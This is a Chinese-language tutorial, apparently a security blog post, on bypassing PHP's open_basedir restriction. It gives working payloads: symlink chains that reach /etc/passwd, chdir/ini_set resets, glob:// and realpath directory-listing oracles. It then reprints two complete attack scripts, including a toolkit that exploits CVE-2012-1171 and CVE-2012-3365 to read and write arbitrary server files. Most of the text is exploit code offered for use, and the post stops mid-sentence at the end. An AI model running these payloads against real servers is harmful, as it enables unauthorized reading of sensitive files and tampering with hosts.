










## 0x01 open_basedir

open_basedir是php.ini中的一个配置选项，可用于将用户访问文件的活动范围限制在指定的区域。

假设open_basedir=/var/www/html/web1/:/tmp/，那么通过web1访问服务器的用户就无法获取服务器上除了/var/www/html/web1/和/tmp/这两个目录以外的文件。

注意：用open_basedir指定的**限制实际上是前缀，而不是目录名**。

为了演示下面的几个示例，我这里环境的open_basedir设置为Web目录和tmp目录：



测试一下，我在/home目录中新建一个1.txt文件，尝试对其进行读取，发现读取失败：



换了Web目录及其子目录和tmp目录中的文件就能成功读取，这就是open_basedir所起到的作用。

## 0x02 利用命令执行函数Bypass

但是open_basedir对命令执行函数没有限制，我们可以使用system()函数试一下，在前面的代码前加上system()代码来进行对比：

```php
<?php
//echofile_get_contents('/home/1.txt');
show_source(__FILE__);
system('cat /home/1.txt');
?>
```

确实能够成功读到目标文件，不受open_basedir的限制：



至于其他的命令执行函数可自行尝试。

但是一般情况下，system()等命令执行函数可能会被disable_functions给禁用掉，因此运用到的场景可能并不多。

## 0x03 利用symlink()函数Bypass

### 符号链接

> 符号链接又叫软链接，是一类特殊的文件，这个文件包含了另一个文件的路径名(绝对路径或者相对路径)。路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身。

### symlink()函数

(PHP 4, PHP 5, PHP 7)

symlink()函数创建一个从指定名称连接的现存目标文件开始的符号连接。如果成功，该函数返回TRUE；如果失败，则返回FALSE。

```
symlink ( string $target , string $link ) : bool
```

| 参数   | 描述               |
| ------ | ------------------ |
| target | 必需。连接的目标。 |
| link   | 必需。连接的名称。 |

当然一般情况下这个target是受限于open_basedir的。

### Bypass

先给出payload，原理在后面说明，这里需要跨几层目录就需要创建几层目录：

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","7ea");
symlink("7ea/../../../../etc/passwd","exp");
unlink("7ea");
mkdir("7ea");
?>
```

访问该PHP文件后，后台便生成了两个目录和一个名为exp的符号链接：



在Web中我们直接访问exp即可读取到目标文件：



原理就是：创建一个链接文件7ea，用相对路径指向A/B/C/D，再创建一个链接文件exp指向7ea/../../../../etc/passwd。其实指向的就是A/B/C/D/../../../../etc/passwd，其实就是/etc/passwd。这时候删除7ea，再创建一个7ea目录，但exp还是指向7ea/../../../etc/passwd，所以就成功跨到/etc/passwd了。

重点在这四句：

```php
symlink("A/B/C/D","7ea");
symlink("7ea/../../../../etc/passwd","exp");
unlink("7ea");
mkdir("7ea");
```

payload构造的注意点就是：要读的文件需要往前跨多少路径，就得创建多少层的子目录，然后输入多少个../来设置目标文件。

## 0x04 利用glob://伪协议Bypass

### glob://伪协议

glob:// — 查找匹配的文件路径模式。

glob://是php自5.3.0版本起开始生效的一个用来筛选目录的伪协议，其用法示例如下：

```php
<?php
// 循环 ext/spl/examples/ 目录里所有 *.php 文件
// 并打印文件名和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {    
printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?>
```

### Bypass

只是用glob://伪协议是无法直接绕过的，它需要结合其他函数组合利用，主要有以下两种利用方式，局限性在于它们都只能列出根目录下和open_basedir指定的目录下的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。

### 方式1——DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口。

DirectoryIterator与glob://结合将无视open_basedir，列举出根目录下的文件：

```php
<?php
$c = $_GET['c'];
$a = new DirectoryIterator($c);
foreach($a as $f){    
echo($f->__toString().'<br>');
}
?>
```

输入`glob:///*`即可列出根目录下的文件，但是会发现只能列根目录和open_basedir指定的目录的文件：



### 方式2——opendir()+readdir()+glob://

opendir()函数为打开目录句柄，readdir()函数为从目录句柄中读取条目。

这里结合两个函数来列举根目录中的文件：

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {    
while ( ($file = readdir($b)) !== false ) {        
echo $file."<br>";    
}    
closedir($b);
}
?>
```

效果和方式1是一样的，只能Bypass open_basedir来列举根目录中的文件，不能列举出其他非根目录和open_basedir指定的目录中的文件。

## 0x05 利用chdir()与ini_set()组合Bypass

### 基本原理

这种利用方式跟open_basedir存在缺陷的处理逻辑有关，具体原理可参考：

[《通过chdir来bypass open_basedir》](https://www.jianshu.com/p/98535e6c54df)

[《从PHP底层看open_basedir bypass》](https://www.4hou.com/web/17357.html)

### Bypass

测试Demo，放置在Web根目录下，在执行输入参数的PHP代码前后获取open_basedir的值看是否改变了：

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

输入以下payload：

```php
mkdir('mi1k7ea');chdir('mi1k7ea');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

可以看到open_basedir被设置为’/‘了，整个失去了效果：



注意，如果php文件在Web根目录，则需要构造一个相对可上跳的open_basedir：

```php
mkdir('mi1k7ea');
chdir('mi1k7ea');
ini_set('open_basedir','..');
```

如果php文件直接在Web目录的子目录的话，就可不用创建相对可上跳的open_basedir了。

## 0x06 利用bindtextdomain()函数Bypass

### bindtextdomain()函数

(PHP 4, PHP 5, PHP 7)

bindtextdomain()函数用于绑定domain到某个目录的函数。

函数定义如下：

```
bindtextdomain ( string $domain , string $directory ) : string
```

### Bypass

利用原理是基于报错：bindtextdomain()函数的第二个参数\$directory是一个文件路径，它会在\$directory存在的时候返回\$directory，不存在则返回false。

payload：

```php
<?php
printf('<b>open_basedir: %s</b><br />',ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

成功访问到存在的文件是会返回当前文件的路径的：



若访问的文件不存在则返回false：



可以看到，和前面几种方法相比，实在是相形见绌，只能应用于判断目标文件是否存在，有利于后续和其他漏洞进行组合利用。

## 0x07 利用SplFileInfo::getRealPath()类方法Bypass

### SplFileInfo类

(PHP 5 >= 5.1.2, PHP 7)

SplFileInfo类为单个文件的信息提供高级面向对象的接口。

**SplFileInfo::getRealPath**

(PHP 5 >= 5.2.2, PHP 7)

SplFileInfo::getRealPath类方法是用于获取文件的绝对路径。

### Bypass

和bindtextdomain的原理一样，是基于报错的方式，返回结果都是一样的，就不再多演示，这里直接给出payload：

```php+HTML
<?php
echo '<b>open_basedir: ' . ini_get('open_basedir') . '</b><br />';
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

## 0x08 利用realpath()函数Bypass

### realpath()函数

(PHP 4, PHP 5, PHP 7)

realpath — 返回规范化的绝对路径名。它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

函数定义如下：

```
realpath ( string $path ) : string
```

### Bypass

环境条件：**Windows**

基本原理是基于报错返回内容的不用，设置自定义的错误处理函数，循环遍历匹配到正则的报错信息的字符来逐个拼接成存在的文件名，另外是需要结合利用Windows下的两个特殊的通配符<和>，不然只能进行暴破。

payload：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />",ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'E:/wamp64/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {        
    $file = $dir . $chars[$i] . '<><';        
    realpath($file);
}
function isexists($errno, $errstr){        
    $regexp = '/File\((.*)\) is not within/';        preg_match($regexp, $errstr, $matches);        
    if (isset($matches[1])) {                
        printf("%s <br/>", $matches[1]);        
    }
}
?>
```

可以看到，首字母不同的文件就被列出来了，首字母相同的文件中只列了第一个：



## 0x09 脚本合集

### p牛的脚本

脚本原理就是利用symlink()函数来Bypass的原理。

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

### 网上的一个脚本

原理是用glob://伪协议：

```php
<?php
/*
PHP open_basedir bypass collection
Works with >= PHP5
By /fd, @filedescriptor(https://twitter.com/filedescriptor)
 */
 
// Assistant functions
function getRelativePath($from, $to) {
	// some compatibility fixes for Windows paths
	$from = rtrim($from, '\/') . '/';
	$from = str_replace('\\', '/', $from);
	$to = str_replace('\\', '/', $to);
 
	$from = explode('/', $from);
	$to = explode('/', $to);
	$relPath = $to;
 
	foreach ($from as $depth => $dir) {
		// find first non-matching dir
		if ($dir === $to[$depth]) {
			// ignore this directory
			array_shift($relPath);
		} else {
			// get number of remaining dirs to $from
			$remaining = count($from) - $depth;
			if ($remaining > 1) {
				// add traversals up to first matching dir
				$padLength = (count($relPath) + $remaining - 1) * -1;
				$relPath = array_pad($relPath, $padLength, '..');
				break;
			} else {
				$relPath[0] = './' . $relPath[0];
			}
		}
	}
	return implode('/', $relPath);
}
 
function fallback($classes) {
	foreach ($classes as $class) {
		$object = new $class;
		if ($object->isAvailable()) {
			return $object;
		}
	}
	return new NoExploit;
}
 
// Core classes
interface Exploitable {
	function isAvailable();
	function getDescription();
}
 
class NoExploit implements Exploitable {
	function isAvailable() {
		return true;
	}
	function getDescription() {
		return 'No exploit is available.';
	}
}
 
abstract class DirectoryLister implements Exploitable {
	var $currentPath;
 
	function isAvailable() {}
	function getDescription() {}
	function getFileList() {}
	function setCurrentPath($currentPath) {
		$this->currentPath = $currentPath;
	}
	function getCurrentPath() {
		return $this->currentPath;
	}
}
 
class GlobWrapperDirectoryLister extends DirectoryLister {
	function isAvailable() {
		return stripos(PHP_OS, 'win') === FALSE && in_array('glob', stream_get_wrappers());
	}
	function getDescription() {
		return 'Directory listing via glob pattern';
	}
	function getFileList() {
		$file_list = array();
		// normal files
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		// special files (starting with a dot(.))
		$it = new DirectoryIterator("glob://{$this->getCurrentPath()}.*");
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		sort($file_list);
		return $file_list;
	}
}
 
class RealpathBruteForceDirectoryLister extends DirectoryLister {
	var $characters = 'abcdefghijklmnopqrstuvwxyz0123456789-_'
	, $extension = array()
	, $charactersLength = 38
	, $maxlength = 3
	, $fileList = array();
 
	function isAvailable() {
		return ini_get('open_basedir') && function_exists('realpath');
	}
	function getDescription() {
		return 'Directory listing via brute force searching with realpath function.';
	}
	function setCharacters($characters) {
		$this->characters = $characters;
		$this->charactersLength = count($characters);
	}
	function setExtension($extension) {
		$this->extension = $extension;
	}
	function setMaxlength($maxlength) {
		$this->maxlength = $maxlength;
	}
	function getFileList() {
		set_time_limit(0);
		set_error_handler(array(__CLASS__, 'handler'));
		$number_set = array();
		while (count($number_set = $this->nextCombination($number_set, 0)) <= $this->maxlength) {
			$this->searchFile($number_set);
		}
		sort($this->fileList);
		return $this->fileList;
	}
	function nextCombination($number_set, $length) {
		if (!isset($number_set[$length])) {
			$number_set[$length] = 0;
			return $number_set;
		}
		if ($number_set[$length] + 1 === $this->charactersLength) {
			$number_set[$length] = 0;
			$number_set = $this->nextCombination($number_set, $length + 1);
		} else {
			$number_set[$length]++;
		}
		return $number_set;
	}
	function searchFile($number_set) {
		$file_name = 'a';
		foreach ($number_set as $key => $value) {
			$file_name[$key] = $this->characters[$value];
		}
		// normal files
		realpath($this->getCurrentPath() . $file_name);
		// files with preceeding dot
		realpath($this->getCurrentPath() . '.' . $file_name);
		// files with extension
		foreach ($this->extension as $extension) {
			realpath($this->getCurrentPath() . $file_name . $extension);
		}
	}
	function handler($errno, $errstr, $errfile, $errline) {
		$regexp = '/File\((.*)\) is not within/';
		preg_match($regexp, $errstr, $matches);
		if (isset($matches[1])) {
			$this->fileList[] = $matches[1];
		}
 
	}
}
 
abstract class FileWriter implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function write($content) {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}
 
abstract class FileReader implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function read() {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}

// Assistant class for DOMFileWriter & DOMFileReader
class StreamExploiter {
var $mode, $filePath, $fileContent;

function stream_close() {
		$doc = new DOMDocument;
		$doc->strictErrorChecking = false;
switch ($this->mode) {
case 'w':
			$doc->loadHTML($this->fileContent);
			$doc->removeChild($doc->firstChild);
			$doc->saveHTMLFile($this->filePath);
break;
default:
case 'r':
			$doc->resolveExternals = true;
			$doc->substituteEntities = true;
			$doc->loadXML("<!DOCTYPE doc [<!ENTITY file SYSTEM \"file://{$this->filePath}\">]><doc>&file;</doc>", LIBXML_PARSEHUGE);
echo $doc->documentElement->firstChild->nodeValue;
		}
	}
function stream_open($path, $mode, $options, &$opened_path) {
$this->filePath = substr($path, 10);
$this->mode = $mode;
return true;
	}
public function stream_write($data) {
$this->fileContent = $data;
return strlen($data);
	}
}

class DOMFileWriter extends FileWriter {
function isAvailable() {
return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
function getDescription() {
return 'Write to and create a file exploiting CVE-2012-1171 (allow overriding). Notice the content should be in well-formed XML format.';
	}
function write($content) {
// set it to global resource in order to trigger RSHUTDOWN
global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'w');
		fwrite($_DOM_exploit_resource, $content);
	}
}

class DOMFileReader extends FileReader {
function isAvailable() {
return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
function getDescription() {
return 'Read a file exploiting CVE-2012-1171. Notice the content should be in well-formed XML format.';
	}
function read() {
// set it to global resource in order to trigger RSHUTDOWN
global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'r');
	}
}

class SqliteFileWriter extends FileWriter {
function isAvailable() {
return is_writable(getcwd())
			&& (extension_loaded('sqlite3') || extension_loaded('sqlite'))
			&& (version_compare(phpversion(), '5.3.15', '<=') || (version_compare(phpversion(), '5.4.5', '<=') && PHP_MINOR_VERSION == 4));
	}
function getDescription() {
return 'Create a file with custom content exploiting CVE-2012-3365 (disallow overriding). Junk contents may be inserted';
	}
function write($content) {
		$sqlite_class = extension_loaded('sqlite3') ? 'sqlite3' : 'SQLiteDatabase';
		mkdir(':memory:');
		$payload_path = getRelativePath(getcwd() . '/:memory:', $this->getFilePath());
		$payload = str_replace('\'', '\'\'', $content);
		$database = new $sqlite_class(":memory:/{$payload_path}");
		$database->exec("CREATE TABLE foo (bar STRING)");
		$database->exec("INSERT INTO foo (bar) VALUES ('{$payload}')");
		$database->close();
		rmdir(':memory:');
	}
}

// End of Core
?>
<?php
$action = isset($_GET['action']) ? $_GET['action'] : '';
$cwd = isset($_GET['cwd']) ? $_GET['cwd'] : getcwd();
$cwd = rtrim($cwd, DIRECTORY_SEPARATOR) . DIRECTORY_SEPARATOR;
$directorLister = fallback(array('GlobWrapperDirectoryLister', 'RealpathBruteForceDirectoryLister'));
$fileWriter = fallback(array('DOMFileWriter', 'SqliteFileWriter'));
$fileReader = fallback(array('DOMFileReader'));
$append = '';
?>
<style>
#panel {
  height: 200px;
  overflow: hidden;
}
#panel > pre {
  margin: 0;
  height: 200px;
}
</style>
<div id="panel">
<pre id="dl">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Directory Listing:</legend>Current Directory: <input name="cwd" size="100" value="<?php echo $cwd; ?>"><input type="submit" value="Go">
<?php if (get_class($directorLister) === 'RealpathBruteForceDirectoryLister'): ?>
<?php
$characters = isset($_GET['characters']) ? $_GET['characters'] : $directorLister->characters;
$maxlength = isset($_GET['maxlength']) ? $_GET['maxlength'] : $directorLister->maxlength;
$append = "&characters={$characters}&maxlength={$maxlength}";

$directorLister->setMaxlength($maxlength);
?>
Search Characters: <input name="characters" size="100" value="<?php echo $characters; ?>">
Maxlength of File: <input name="maxlength" size="1" value="<?php echo $maxlength; ?>">
<?php endif;?>
Description      : <strong><?php echo $directorLister->getDescription(); ?></strong>
</fieldset>
</form>
</pre>
<?php
$file_path = isset($_GET['file_path']) ? $_GET['file_path'] : '';
?>
<pre id="rf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Read File :</legend>File Path: <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Read">
Description: <strong><?php echo $fileReader->getDescription(); ?></strong><input type="hidden" name="action" value="rf">
</fieldset>
</form>
</pre>
<pre id="wf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Write File :</legend>File Path   : <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Write">
File Content: <textarea cols="70" name="content"></textarea>
Description : <strong><?php echo $fileWriter->getDescription(); ?></strong><input type="hidden" name="action" value="wf">
</fieldset>
</form>
</pre>
</div>
<a href="#dl">Directory Listing</a> | <a href="#rf">Read File</a> | <a href="#wf">Write File</a>
<hr>
<pre>
<?php if ($action === 'rf'): ?>
<plaintext>
<?php
$fileReader->setFilePath($file_path);
echo $fileReader->read();
?>
<?php elseif ($action === 'wf'): ?>
<?php
if (isset($_GET['content'])) {
	$fileWriter->setFilePath($file_path);
	$fileWriter->write($_GET['content']);
echo 'The file should be written.';
} else {
echo 'Something goes wrong.';
}
?>
<?php else: ?>
<ol>
<?php
$directorLister->setCurrentPath($cwd);
$file_list = $directorLister->getFileList();
$parent_path = dirname($cwd);

echo "<li><a href='?cwd={$parent_path}{$append}#dl'>Parent</a></li>";
if (count($file_list) > 0) {
foreach ($file_list as $file) {
echo "<li><a href='?cwd={$cwd}{$file}{$append}#dl'>{$file}</a></li>";
	}
} else {
echo 'No files found. The path is probably not a directory.';
}
?>
</ol>
<?php endif;?>
```

试了下，简单的界面化了，但局限性非常明显，就是glob://伪协议的局限性：